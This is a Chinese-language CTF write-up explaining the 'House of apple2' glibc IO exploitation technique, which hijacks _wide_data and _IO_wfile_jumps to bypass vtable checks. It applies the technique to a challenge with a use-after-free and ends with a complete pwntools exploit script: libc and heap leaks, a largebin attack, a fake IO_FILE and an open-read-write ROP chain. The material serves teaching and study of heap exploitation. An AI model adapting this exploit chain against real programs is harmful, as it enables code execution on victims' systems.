


新型 IO 利用方法学习——House of apple2

* * *

# 新型 IO 利用方法学习——House of apple2

## 简介

**House of apple** 是 roderick01 师傅在 2022 年 7 月提出的一种新型的 IO 利用思路，总共提出了三种调用方式，分为了 `House of apple1`、`House of apple2`、`House of apple3`，这三种调用方式都是基于 roderick01 师傅发现的新调用链：`IO_FILE` -> `_wide_data`

## 前置基础

在 **libc2.34** 以上的高libc版本中，glibc 逐渐将许多 hook全局变量移除了，包括 `_malloc_hook / _free_hook / _realloc_hook` ,这就导致我们无法在向从前那样利用 hook 作为钩子函数来 getshell 了，所以到了高版本，堆利用便离不开对 \_IO\_FILE 的伪造和对 IO 流的劫持

在 House of apple 之前的高版本 IO 利用方式有（详细可以见我之前写的几篇文章）：

1.  House of pig ：[多手法联合IO利用之House of pig 学习利用](https://xz.aliyun.com/t/12916)
2.  House of kiwi & House of emma ：[IO利用之House of kiwi & House of emma](https://xz.aliyun.com/t/12934)
3.  House of cat（提出时间比House of apple 稍早）：[新型 IO 利用方法初探—House of cat 学习利用](https://xz.aliyun.com/t/13016)

浏览了这些 IO 利用方式我们可以发现，之前的这些 IO 调用方式都需要至少两次 largebin attack 或者 需要任意读写操作，例如`House of pig` 需要利用 `tcache stashing unlink attack` 和 `largebin attack` 结合，而`House of kiwi、House of emma、House of cat` 等都需要至少两次的 `largebin attack` 或任意写来修改对应的 **\_IO\_xxx\_jumps** 甚至是需要再劫持其他结构（House of emma 需要绕过或劫持 TLS 结构体中的 \_pointer\_chk\_guard）

## 利用条件

House of apple到现在仍是用途最广，攻击效果最好的高版本堆利用方式之一，很大程度上来源于他的利用之方便。

House of apple的利用条件如下：

1.  程序从`main`函数返回或能调用`exit`函数
2.  能泄露出`heap`地址和`libc`地址
3.  能使用**一次**`largebin attack`

**只需要一次 largebin attack** 就意味着House of apple 的调用链**更加简便并能够在更加苛刻的条件下利用成功**

## 利用思路

House of apple 总共有三条调用链：

House of apple1 是通过控制 `fp->_wide_data` 来实现的一个任意地址写已知地址的作用，相当于一次 `largebin attack` 主要是用来结合 `FSOP` 及 `setcontext+61` 等调用链来实现getshell，暂按下不表

House of apple2 和 House of apple3 都是通过 FILE 结构体的伪造来进行攻击，这里主要介绍House of apple2的调用方法

House of apple2 延续了之前利用largebin attack 劫持IO\_FILE结构体的思想，在House of apple2中，我们要利用的是 \_IO\_FILE的一个成员 `_wide_data`

附 ： \_IO\_list\_all 中的成员

```plain
pwndbg> p *_IO_list_all
$2 = {
  file = {
    _flags = -72540025,
    _IO_read_ptr = 0x7ff1eaad7643 <_IO_2_1_stderr_+131> "",
    _IO_read_end = 0x7ff1eaad7643 <_IO_2_1_stderr_+131> "",
    _IO_read_base = 0x7ff1eaad7643 <_IO_2_1_stderr_+131> "",
    _IO_write_base = 0x7ff1eaad7643 <_IO_2_1_stderr_+131> "",
    _IO_write_ptr = 0x7ff1eaad7643 <_IO_2_1_stderr_+131> "",
    _IO_write_end = 0x7ff1eaad7643 <_IO_2_1_stderr_+131> "",
    _IO_buf_base = 0x7ff1eaad7643 <_IO_2_1_stderr_+131> "",
    _IO_buf_end = 0x7ff1eaad7644 <_IO_2_1_stderr_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ff1eaad76a0 <_IO_2_1_stdout_>,
    _fileno = 2,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x7ff1eaad87d0 <_IO_stdfile_2_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7ff1eaad6780 <_IO_wide_data_2>,//这个变量是我们需要劫持的
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ff1eaad34a0 <_IO_file_jumps>//vtable
}
```

程序从main返回或者执行exit后会遍历`_IO_list_all`存放的每一个`IO_FILE`结构体，如果满足条件的话，会调用每个结构体中`vtable->_overflow`函数指针指向的函数。

在 libc2.23 之前是没有 `vtable` 检测的，也就是说可以任意劫持执行的函数。而在glibc2.24之后增加了对 `vtable` 合法性的检测的 `IO_validate_vtable` 函数

```plain
/* Perform vtable pointer validation.  If validation fails, terminate
   the process.  */
static inline const struct _IO_jump_t *
IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  /* Fast path: The vtable pointer is within the __libc_IO_vtables
     section.  */
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  const char *ptr = (const char *) vtable;
  uintptr_t offset = ptr - __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length))
    /* The vtable pointer is not in the expected section.  Use the
       slow path, which will terminate the process if necessary.  */
    _IO_vtable_check ();
  return vtable;
}
```

所以一些高版本的 IO 攻击方法都需要利用各种手法来绕过vtable检测

但是 `_wide_data` 这个成员很特殊，这个成员结构体中的 `_wide_vtable`和调用vtable里函数指针一样，在调用 `_wide_vtable` 虚表里面的函数时，也同样是使用宏去调用，但其没有关于vtable的合法性检查

```plain
pwndbg> p _IO_wide_data_2
$4 = {
  _IO_read_ptr = 0x0,
  _IO_read_end = 0x0,
  _IO_read_base = 0x0,
  _IO_write_base = 0x0,
  _IO_write_ptr = 0x0,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x0,
  _IO_buf_end = 0x0,
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _IO_state = {
    __count = 0,
    __value = {
      __wch = 0,
      __wchb = "\000\000\000"
    }
  },
  _IO_last_state = {
    __count = 0,
    __value = {
      __wch = 0,
      __wchb = "\000\000\000"
    }
  },
  _codecvt = {
    __cd_in = {
      step = 0x0,
      step_data = {
        __outbuf = 0x0,
        __outbufend = 0x0,
        __flags = 0,
        __invocation_counter = 0,
        __internal_use = 0,
        __statep = 0x0,
        __state = {
          __count = 0,
          __value = {
            __wch = 0,
            __wchb = "\000\000\000"
          }
        }
      }
    },
    __cd_out = {
      step = 0x0,
      step_data = {
        __outbuf = 0x0,
        __outbufend = 0x0,
        __flags = 0,
        __invocation_counter = 0,
        __internal_use = 0,
        __statep = 0x0,
        __state = {
          __count = 0,
          __value = {
            __wch = 0,
            __wchb = "\000\000\000"
          }
        }
      }
    }
  },
  _shortbuf = L"",
  _wide_vtable = 0x7ff1eaad2f60 <_IO_wfile_jumps>
}
```

```plain
#define _IO_WOVERFLOW(FP, CH) WJUMP1 (__overflow, FP, CH)

#define WJUMP1(FUNC, THIS, X1) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)

#define _IO_WIDE_JUMPS_FUNC(THIS) _IO_WIDE_JUMPS(THIS)

#define _IO_WIDE_JUMPS(THIS) \
  _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable#define _IO_WOVERFLOW(FP, CH) WJUMP1 (__overflow, FP, CH)
```

那么我们的利用思路如下

1.  劫持`IO_FILE`的`vtable`为`_IO_wfile_jumps`
2.  控制`_wide_data`为可控的堆地址空间
3.  控制`_wide_data->_wide_vtable`为可控的堆地址空间
4.  控制程序执行`IO`流函数调用，最终调用到`_IO_Wxxxxx`函数即可控制程序的执行流

roderick01 师傅在文章里一共给出了三条可行的能执行到 `_IO_Wxxxxx` 函数的利用,包括了：

*   \_IO\_wfile\_overflow
*   \_IO\_wfile\_underflow\_mmap
*   \_IO\_wdefault\_xsgetn

## 源码分析

### 1\. \_IO\_wfile\_overflow

```plain
wint_t
_IO_wfile_overflow (FILE *f, wint_t wch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
    {
      _IO_wdoallocbuf (f);//执行目标
      // ......
    }
    }
}
```

需要执行到 `_IO_wdoallocbuf (f)` 函数

再看看 `_IO_wdoallocbuf (f)` 的源码：

```plain
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)//
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
             fp->_wide_data->_shortbuf + 1, 0);
}
libc_hidden_def (_IO_wdoallocbuf)
```

可以发现有一步执行了 `(wint_t)_IO_WDOALLOCATE (fp)` 函数，也就是提到的 `_IO_WXXXXX` 函数之一

调用链如下：

```plain
_IO_wfile_overflow --> _IO_wdoallocbuf --> _IO_WDOALLOCATE
```

### 2\. \_IO\_wfile\_underflow\_mmap

```plain
static wint_t
_IO_wfile_underflow_mmap (FILE *fp)
{
  struct _IO_codecvt *cd;
  const char *read_stop;

  if (__glibc_unlikely (fp->_flags & _IO_NO_READS))
    {
      fp->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  if (fp->_wide_data->_IO_read_ptr < fp->_wide_data->_IO_read_end)
    return *fp->_wide_data->_IO_read_ptr;

  cd = fp->_codecvt;

  /* Maybe there is something left in the external buffer.  */
  if (fp->_IO_read_ptr >= fp->_IO_read_end
      /* No.  But maybe the read buffer is not fully set up.  */
      && _IO_file_underflow_mmap (fp) == EOF)
    /* Nothing available.  _IO_file_underflow_mmap has set the EOF or error
       flags as appropriate.  */
    return WEOF;

  /* There is more in the external.  Convert it.  */
  read_stop = (const char *) fp->_IO_read_ptr;

  if (fp->_wide_data->_IO_buf_base == NULL)
    {
      /* Maybe we already have a push back pointer.  */
      if (fp->_wide_data->_IO_save_base != NULL)
    {
      free (fp->_wide_data->_IO_save_base);
      fp->_flags &= ~_IO_IN_BACKUP;
    }
      _IO_wdoallocbuf (fp);
    }
    //......
}
```

同样是调用到了 `_IO_wdoallocbuf (fp)` 函数

调用链如下：

```plain
_IO_wfile_underflow_mmap --> _IO_wdoallocbuf --> _IO_WDOALLOCATE
```

### 3\. \_IO\_wdefault\_xsgetn

```plain
size_t
_IO_wdefault_xsgetn (FILE *fp, void *data, size_t n)
{
  size_t more = n;
  wchar_t *s = (wchar_t*) data;
  for (;;)
    {
      /* Data available. */
      ssize_t count = (fp->_wide_data->_IO_read_end
                       - fp->_wide_data->_IO_read_ptr);
      if (count > 0)
    {
      if ((size_t) count > more)
        count = more;
      if (count > 20)
        {
          s = __wmempcpy (s, fp->_wide_data->_IO_read_ptr, count);
          fp->_wide_data->_IO_read_ptr += count;
        }
      else if (count <= 0)
        count = 0;
      else
        {
          wchar_t *p = fp->_wide_data->_IO_read_ptr;
          int i = (int) count;
          while (--i >= 0)
        *s++ = *p++;
          fp->_wide_data->_IO_read_ptr = p;
            }
            more -= count;
        }
      if (more == 0 || __wunderflow (fp) == WEOF)
    break;
    }
  return n - more;
}
libc_hidden_def (_IO_wdefault_xsgetn)
```

可以看到有一个 `__wunderflow (fp)` 函数

看看这个函数

```plain
wint_t
__wunderflow (FILE *fp)
{
  if (fp->_mode < 0 || (fp->_mode == 0 && _IO_fwide (fp, 1) != 1))
    return WEOF;

  if (fp->_mode == 0)
    _IO_fwide (fp, 1);
  if (_IO_in_put_mode (fp))
    if (_IO_switch_to_wget_mode (fp) == EOF)
      return WEOF;
    // ......
}
```

在 `_IO_switch_to_wget_mode (fp)` 函数中会调用 `_IO_WOVERFLOW (fp, WEOF)` 函数

```plain
int
_IO_switch_to_wget_mode (FILE *fp)
{
  if (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
    if ((wint_t)_IO_WOVERFLOW (fp, WEOF) == WEOF) 
      return EOF;
    // .....
}
```

调用链如下

```plain
_IO_wdefault_xsgetn --> __wunderflow --> _IO_switch_to_wget_mode --> _IO_WOVERFLOW
```

具体劫持情况中函数的各参数需要满足的条件可以看看roderick01师傅的原文章：[\[原创\] House of apple 一种新的glibc中IO攻击方法 (2)](https://bbs.kanxue.com/thread-273832.htm)

## 例题：heaporw

### ida

```plain
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v2; // [rsp+4h] [rbp-Ch]

  ready();
  while ( 1 )
  {
    do
    {
      while ( 1 )
      {
        menu();
        v2 = my_read();
        if ( v2 != 4 )
          break;
        edit();
      }
    }
    while ( v2 > 4 );
    if ( v2 == 3 )
    {
      show();
    }
    else if ( v2 <= 3 )
    {
      if ( v2 == 1 )
      {
        add();
      }
      else if ( v2 == 2 )
      {
        delete();
      }
    }
  }
}
```

```plain
int __cdecl add()
{
  unsigned int size; // [rsp+8h] [rbp-38h]
  int index; // [rsp+Ch] [rbp-34h]
  __int64 *ptr; // [rsp+10h] [rbp-30h]
  char buf[4]; // [rsp+1Ch] [rbp-24h] BYREF
  char idx[24]; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+38h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  puts("How much?");
  read(0, buf, 5uLL);
  size = atoi(buf);
  if ( size > 0x550 || size <= 0x41F )
  {
    puts("size error!");
    exit(0);
  }
  ptr = (__int64 *)malloc(size);
  puts("Which?");
  read(0, idx, 8uLL);
  index = atoi(idx);
  pwn_size[index] = size;
  pwn_ptr[index] = (__int64)ptr;
  puts("Content:");
  read(0, (void *)pwn_ptr[index], size);
  return puts("Okk");
}
```

```plain
int __cdecl delete()
{
  unsigned int index; // [rsp+Ch] [rbp-14h]
  char v3[5]; // [rsp+13h] [rbp-Dh] BYREF
  unsigned __int64 var8; // [rsp+18h] [rbp-8h]

  var8 = __readfsqword(0x28u);
  puts("Which one?");
  read(0, v3, 5uLL);
  index = atoi(v3);
  if ( index <= 0x20 && pwn_ptr[index] )
    free((void *)pwn_ptr[index]);
  else
    puts("Invalid idx");
  return puts("Delete OK!");
}
```

```plain
int __cdecl show()
{
  unsigned int v0; // [rsp+Ch] [rbp-24h]
  char buf[16]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Which one?");
  read(0, buf, 0x10uLL);
  v0 = atoi(buf);
  if ( v0 > 0x20 )
    return 0;
  if ( !pwn_ptr[v0] )
    return puts("It is empty!");
  write(1, (const void *)pwn_ptr[v0], 0x18uLL);
  return puts("Show OK!");
}
```

```plain
int __cdecl edit()
{
  unsigned int v1; // [rsp+Ch] [rbp-24h]
  char buf[16]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Which one?");
  read(0, buf, 0x10uLL);
  v1 = atoi(buf);
  if ( v1 > 0xF )
    return 0;
  if ( !pwn_ptr[v1] )
    return puts("Empty!");
  puts("Content:");
  read(0, (void *)pwn_ptr[v1], (unsigned int)pwn_size[v1]);
  return puts("Edit OK!");
}
```

### 源码分析

增删查改四个功能都有

```plain
if ( size > 0x550 || size <= 0x41F )
 {
   puts("size error!");
   exit(0);
 }
```

其中add功能只能add largebin chunk

free功能里有UAF漏洞

```plain
if ( index <= 0x20 && pwn_ptr[index] )
      free(pwn_ptr[index]);
```

并且开启了沙箱

### 攻击流程

largebin chunk的优点就是泄露libc较为简单

free掉就可以泄露了，要注意防止合并

```plain
add(0,0x500,'aaaa')
add(1,0x500,'aaaa')
#chunk0+chunk1 = heapbase --> heapbase+0x1000
delete(0)
show(0)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121159-480c98fc-88ed-1.png)

然后由于apple需要利用largebin attack，所以还要泄露heap\_base（选 2.31不用考虑safe-linking的12异或，图个方便）

先把chunk1 free掉，让两个chunk都合并到topchunk中，然后再add 3个chunk

```plain
delete(1)
add(2,0x420,'bbbb')
add(3,0x420,'bbbb')
add(4,0x420,'bbbb')
```

利用edit after free 修改size让chunk free之后进入到tcachebin中，show出heap地址

```plain
edit(0,'\x00'*0x420+p64(0)+p64(0x41))
edit(1,'\x00'*0x340+p64(0)+p64(0x41))

delete(3)
delete(4)
show(4)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121209-4e61f198-88ed-1.png)

```plain
edit(0,'\x00'*0x420+p64(0)+p64(0x431))
edit(1,'\x00'*0x340+p64(0)+p64(0x431))
```

接下来构造好largebin attack的触发

```plain
add(5,0x450,'bbbb')
add(6,0x450,'bbbb')
add(7,0x440,'bbbb')
add(8,0x440,'bbbb')
delete(5)#chunk5 --> unsorted bin
add(9,0x500,'bbbb')#chunk5 --> largebin
delete(7)#chunk7-->unsortedbin
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121219-5449e4e4-88ed-1.png)

下一步就是构造好orw链和fake io

这里是winmt师傅的文章浇的原理[\[原创\] CTF 中 glibc堆利用 及 IO\_FILE 总结-Pwn-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-272098.htm#msg_header_h3_29)

tql

通过svcudp\_reply+26处的gadget做到类似于栈迁移的效果，走ROP链打orw

```plain
<svcudp_reply+26>:  mov  rbp,QWORD PTR [rdi+0x48]
<svcudp_reply+30>:  mov  rax,QWORD PTR [rbp+0x18]
<svcudp_reply+34>:  lea  r13,[rbp+0x10]
<svcudp_reply+38>:  mov  DWORD PTR [rbp+0x10],0x0
<svcudp_reply+45>:  mov  rdi,r13
<svcudp_reply+48>:  call  QWORD PTR [rax+0x28]
```

构造orw链

```plain
#open
orw = b'./flag\x00\x00'
orw += p64(pop_rdx12) + p64(0) + p64(chunk0 - 0x10)#fake io addr
orw += p64(pop_rdi) + p64(orw_addr)
orw += p64(pop_rsi) + p64(0)
orw += p64(open_addr)
#read
orw += p64(pop_rdi) + p64(3)
orw += p64(pop_rsi) + p64(orw_addr + 0x100)
orw += p64(pop_rdx12) + p64(0x50) + p64(0)
orw += p64(read_addr)
#puts
orw += p64(pop_rdi) + p64(orw_addr + 0x100)
orw += p64(puts_addr)
```

其中chunk0是我们伪造的fakeio的地址

伪造fake io\_list

```plain
#_IO_list_all
pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20) #2c0
pl+=p64(0)*3 #2e0
pl+=p64(orw_addr) #chunk0 + 0xe0 + 0xe8 + 0x70 -- _IO_save_base
pl+=p64(0)*7
pl+=p64(lock) #_lock
pl+=p64(0)*2
pl+=p64(chunk0 + 0xe0) #370: chunk0+0xe0 -- _IO_wide_data
pl+=p64(0)*6
pl+=p64(wfile)

#_IO_wide_data
pl+=p64(0)*0x1c
pl+=p64(chunk0 + 0xe0 + 0xe8) #_IO_jump_t

#_IO_jump_t
pl+=p64(0)*0xd
pl+=p64(magic_gadget)#svcudp_reply+26处的gadget
pl+=orw
```

带入本题中

```plain
chunk0 = heap_base + 0xf20 #fake_IO
orw_addr=heap_base+0x2090
orw=b'./flag\x00\x00'
orw+=p64(pop_rdx_r12)+p64(0)+p64(chunk0-0x10)
orw+=p64(pop_rdi)+p64(orw_addr)
orw+=p64(pop_rsi)+p64(0)
orw+=p64(open_addr)
#read
orw+=p64(pop_rdi)+p64(3)
orw+=p64(pop_rsi)+p64(orw_addr+0x100)
orw+=p64(pop_rdx_r12)+p64(0x50)+p64(0)
orw+=p64(read_addr)
#puts
orw+=p64(pop_rdi)+p64(orw_addr+0x100)
orw+=p64(puts_addr)

edit(9,orw)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121232-5c2648a6-88ed-1.png)

```plain
magic_gadget = libc_base + 0x154dd0 +26
pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20)
pl+=p64(0)*2+p64(0)+p64(orw_addr) #chunk0+0x48
pl+=p64(0)*4
pl+=p64(0)*3+p64(lock)
pl+=p64(0)*2+p64(chunk0+0xe0)+p64(0)
pl+=p64(0)*4
pl+=p64(0)+p64(wfile) 
pl+=p64(0)*0x1c+p64(chunk0+0xe0+0xe8)     #chunk0+0xe0
pl+=p64(0)*0xd+p64(magic_gadget)
edit(5,pl)
add(8,0x500,'bbbb')
```

edit 5改写bk\_nextsize后add触发largebin attack将fake io挂到io\_list\_all上

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121244-6315f274-88ed-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121249-65d7fd68-88ed-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121256-6a5e5be8-88ed-1.png)

接着把前一个chunk抽走让io\_list\_all 链上我们构造的fake io（不然链接的就是偏移为0x17e0位置的chunk了）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121304-6f074060-88ed-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121311-730beddc-88ed-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121316-75cc9436-88ed-1.png)

再exit触发io即可执行orw链拿到flag

```plain
add(10,0x440,'aaaa')
dbg()#8
choice(add_idx)
sla('How much?\n',str(20))
```

#### 执行效果

##### \_IO\_wfile\_overflow

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121330-7e7c2506-88ed-1.png)

##### \_IO\_wdoallocbuf

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121339-83ba8e90-88ed-1.png)

##### \_IO\_WDOALLOCATE（伪造成magic\_gadget）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121349-89964e3a-88ed-1.png)

##### orw链的执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121357-8e48e7e4-88ed-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121401-90aba864-88ed-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121404-92ee0c02-88ed-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122121408-954948ea-88ed-1.png)

完整exp：

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc-2.31.so')


add_idx = 1
delete_idx = 2
show_idx = 3
edit_idx = 4

def dbg():
    gdb.attach(p)
    pause()

def choice(cho):
    sla('>> ',cho)

def add(idx,size,content):
    choice(add_idx)
    sla('How much?\n',size)
    sla('Which?\n',idx)
    sla('Content:\n',content)

def delete(idx):
    choice(delete_idx)
    sla('Which one?\n',idx)

def show(idx):
    choice(show_idx)
    sla('Which one?\n',idx)

def edit(idx,content):
    choice(edit_idx)
    sla('Which one?\n',idx)
    sla('Content:\n',content)


add(0,0x500,'aaaa')
add(1,0x500,'aaaa')
delete(0)
show(0)

libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)

delete(1)
add(2,0x420,'bbbb')
add(3,0x420,'bbbb')
add(4,0x420,'bbbb')

edit(0,'\x00'*0x420+p64(0)+p64(0x41))
edit(1,'\x00'*0x340+p64(0)+p64(0x41))

delete(3)
delete(4)
show(4)

heap_base=u64(p.recv(6)[-6:].ljust(8,'\x00'))-0x6d0
leak('heap_base',heap_base)

edit(0,'\x00'*0x420+p64(0)+p64(0x431))
edit(1,'\x00'*0x340+p64(0)+p64(0x431))

add(5,0x450,'bbbb')
add(6,0x450,'bbbb')
add(7,0x440,'bbbb')
add(8,0x440,'bbbb')
delete(5)

add(9,0x500,'bbbb')

delete(7)

pop_rdi = libc_base + next(libc.search(asm('pop rdi;ret;')))
pop_rsi = libc_base + next(libc.search(asm('pop rsi;ret;')))
pop_rdx_r12 = libc_base + next(libc.search(asm('pop rdx;pop r12;ret;')))
leave_ret = libc_base + next(libc.search(asm('leave;ret;')))

open_addr=libc.symbols['open']+libc_base
read_addr=libc.symbols['read']+libc_base
write_addr=libc.symbols['write']+libc_base
puts_addr=libc.symbols['puts']+libc_base
setcontext=libc_base+0x0000000000151990

leave_ret=libc_base+0x00000000000578c8

io_all = libc_base + libc.sym['_IO_list_all']  
wfile = libc_base + libc.sym['_IO_wfile_jumps']


lock = libc_base+0x1ee7d0    
magic_gadget = libc_base + 0x154dd0 +26
chunk0 = heap_base + 0xf20 #fake_IO
orw_addr=heap_base+0x2090
orw=b'./flag\x00\x00'
orw+=p64(pop_rdx_r12)+p64(0)+p64(chunk0-0x10)
orw+=p64(pop_rdi)+p64(orw_addr)
orw+=p64(pop_rsi)+p64(0)
orw+=p64(open_addr)

orw+=p64(pop_rdi)+p64(3)
orw+=p64(pop_rsi)+p64(orw_addr+0x100)
orw+=p64(pop_rdx_r12)+p64(0x50)+p64(0)
orw+=p64(read_addr)

orw+=p64(pop_rdi)+p64(orw_addr+0x100)
orw+=p64(puts_addr)

edit(9,orw)


pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20)
pl+=p64(0)*2+p64(0)+p64(orw_addr) #chunk0+0x48
pl+=p64(0)*4
pl+=p64(0)*3+p64(lock)
pl+=p64(0)*2+p64(chunk0+0xe0)+p64(0)
pl+=p64(0)*4
pl+=p64(0)+p64(wfile) 
pl+=p64(0)*0x1c+p64(chunk0+0xe0+0xe8)     #chunk0+0xe0
pl+=p64(0)*0xd+p64(magic_gadget)

edit(5,pl)#4
add(8,0x500,'bbbb')

add(10,0x440,'aaaa')

choice(add_idx)

sla('How much?\n',str(20))

itr()
```

## 总结

House of apple2至今仍然是 IO 利用中最好用的手法之一，只需要一次 largebin attack 的简便手法以及巧妙的 IO 函数调用链也是它至今仍全版本通用的秘方
